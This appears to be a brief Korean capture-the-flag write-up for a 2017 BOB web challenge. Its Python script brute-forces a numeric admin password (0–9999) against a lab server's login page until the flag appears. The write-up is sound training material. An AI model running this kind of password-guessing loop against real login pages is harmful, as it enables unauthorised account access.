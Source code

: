 # [2017_BOB] \[WEB] Prob2

\* 서버가 닫혀있어서 기억을 더듬어 작성합니다.

### Problem

웹페이지에 접속하면 로그인 창이 하나 뜨는데 주석으로 아이디는 admin, pw는 0~9999라고 알려줍니다.



###Solution

```python
import requests

i=0
while True:
	r = requests.post('http://192.168.32.54/prob2.php', data = {"id":"admin","pw":str(i)})
	result = r.text
	if "Again" not in result:
		print r.text
		print i
		break
	i += 1
```

브포로 비밀번호를 때려맞춰 주면 플래그가 뜹니다.